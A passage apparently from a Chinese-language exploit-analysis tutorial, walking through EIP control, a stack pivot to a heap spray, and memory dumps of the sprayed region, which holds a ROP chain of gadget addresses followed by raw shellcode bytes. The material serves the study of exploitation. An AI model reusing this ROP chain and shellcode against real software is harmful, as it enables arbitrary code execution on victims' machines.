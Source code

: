 ```

0012E4E4  0C 0C 0C 0C BC 94 B0 83 45 A2 04 7D 13 4B 30 18  ....紨皟E?}K0
0012E4F4  98 95 ED 9F 3E CC 50 8B AC FE B5 5C 8F 86 D5 26  槙頍>蘌嫭\弳?
```
于是跳转到 `4A82A714`：
```
4A82A714    5C              pop esp         ; esp = 0C0C0C0C
4A82A715    C3              retn            ; esp = 0C0C0C10, eip = 4A8063A5
```

在进入下面的内容前，我们再来看一个东西，即 `eax` 是由 `edi` 控制的，通过对函数调用的回溯，可以看到程序对 edi 的处理，它的值在整个过程中都是不变的，而且 edi+0x3C 正好存放第一个 gadget 的地址。所以只要这个地址被覆盖，就可以控制 EIP 了。
<pre>
d edi+0x3C:

0012E754  <b>D0 E6 12 00</b> 00 00 00 00 00 AA 04 08 00 00 00 00  墟......?....    <-- eax

d 0012E6D0:

0012E6D0  <b>38 CB 80 4A</b> 44 B6 49 EA A5 2D 16 26 4B B1 FA D2  8藔JD禝辚-&K柄    <-- ROP
</pre>

#### Heap spray
上面的 gadget 返回后，堆栈就被转移到 heap spray 的地方了。

Heap spray 是在 shellcode 的前面加上大量的 slide code（滑板指令），组成一个注入代码段。然后向系统申请大量内存，并且反复用注入代码段来填充。这样就使得进程的地址空间被大量的注入代码所占据。然后结合其他的漏洞攻击技术控制程序流，使得程序执行到堆上，最终将导致 shellcode 的执行。

我们来实际看一下（加粗的地方是后面会用到的 gadgets 地址）： 
<pre>
0C0C0BE0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................    <-- NOP slide
0C0C0BF0  0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  ................
0C0C0C00  0C 0C 0C 0C 0C 0C 0C 0C 41 41 41 41 <b>A5 63 80 4A</b>  ........AAAA€J
0C0C0C10  00 00 8A 4A <b>96 21 80 4A</b> <b>90 1F 80 4A</b> <b>3C 90 84 4A</b>  ..奐?€J?€J<悇J      <-- ROP
0C0C0C20  <b>92 B6 80 4A</b> 64 10 80 4A C8 22 85 4A 00 00 00 10  挾€Jd€J?匤...
0C0C0C30  00 00 00 00 00 00 00 00 02 00 00 00 02 01 00 00  .............
0C0C0C40  00 00 00 00 <b>A5 63 80 4A</b> <b>64 10 80 4A</b> <b>B2 2D 84 4A</b>  ....€Jd€J?凧
0C0C0C50  <b>B1 2A 80 4A</b> 08 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b>  ?€J...Θ€J?€J
0C0C0C60  38 90 84 4A <b>92 B6 80 4A</b> <b>64 10 80 4A</b> FF FF FF FF  8悇J挾€Jd€J
0C0C0C70  00 00 00 00 40 00 00 00 00 00 00 00 00 00 01 00  ....@..........
0C0C0C80  00 00 00 00 A5 63 80 4A 64 10 80 4A <b>B2 2D 84 4A</b>  ....€Jd€J?凧
0C0C0C90  <b>B1 2A 80 4A</b> 08 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b>  ?€J...Θ€J?€J
0C0C0CA0  30 90 84 4A <b>92 B6 80 4A</b> <b>64 10 80 4A</b> FF FF FF FF  0悇J挾€Jd€J
0C0C0CB0  22 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00  "..............
0C0C0CC0  A5 63 80 4A 04 00 8A 4A <b>96 21 80 4A</b> <b>A5 63 80 4A</b>  €J.奐?€J€J
0C0C0CD0  64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b> 30 00 00 00  d€J?凧?€J0...
0C0C0CE0  <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b> 04 00 8A 4A <b>D8 A7 80 4A</b>  Θ€J?€J.奐丕€J
0C0C0CF0  <b>A5 63 80 4A</b> 64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b>  €Jd€J?凧?€J
0C0C0D00  20 00 00 00 <b>A6 A8 80 4A</b> <b>A5 63 80 4A</b> 64 10 80 4A   ...Θ€J€Jd€J
0C0C0D10  <b>DC AE 80 4A</b> <b>90 1F 80 4A</b> 34 00 00 00 <b>85 D5 80 4A</b>  墚€J?€J4...呎€J
0C0C0D20  <b>A5 63 80 4A</b> 64 10 80 4A <b>B2 2D 84 4A</b> <b>B1 2A 80 4A</b>  €Jd€J?凧?€J
0C0C0D30  0A 00 00 00 <b>A6 A8 80 4A</b> <b>90 1F 80 4A</b> 70 91 84 4A  ....Θ€J?€Jp憚J
0C0C0D40  <b>92 B6 80 4A</b> FF FF FF FF FF FF FF FF FF FF FF FF  挾€J
0C0C0D50  00 10 00 00 DB C1 D9 74 24 F4 BB 81 F4 49 9E 5A  ...哿賢$艋侓I瀂    <-- shellcode
0C0C0D60  29 C9 B1 31 31 5A 18 03 5A 18 83 C2 85 16 BC 62  )杀11ZZ兟?糱
0C0C0D70  6D 54 3F 9B 6D 39 C9 7E 5C 79 AD 0B CE 49 A5 5E  mT?沵9蓗\y?蜪
0C0C0D80  E2 22 EB 4A 71 46 24 7C 32 ED 12 B3 C3 5E 66 D2  ?隞qF$|2?趁^f
0C0C0D90  47 9D BB 34 76 6E CE 35 BF 93 23 67 68 DF 96 98  G澔4vn?繐#gh邧
0C0C0DA0  1D 95 2A 12 6D 3B 2B C7 25 3A 1A 56 3E 65 BC 58  ?m;+?:V>e糥
0C0C0DB0  93 1D F5 42 F0 18 4F F8 C2 D7 4E 28 1B 17 FC 15  ?魾?O譔(?
0C0C0DC0  94 EA FC 52 12 15 8B AA 61 A8 8C 68 18 76 18 6B  旉黂嫪a▽hvk
0C0C0DD0  BA FD BA 57 3B D1 5D 13 37 9E 2A 7B 5B 21 FE F7  糊篧;裖7?{[!
0C0C0DE0  67 AA 01 D8 EE E8 25 FC AB AB 44 A5 11 1D 78 B5  g?仡?獶?x
0C0C0DF0  FA C2 DC BD 16 16 6D 9C 7C E9 E3 9A 32 E9 FB A4  芙m渱殂?辂
0C0C0E00  62 82 CA 2F ED D5 D2 E5 4A 29 99 A4 FA A2 44 3D  b偸/碚义J)櫎D=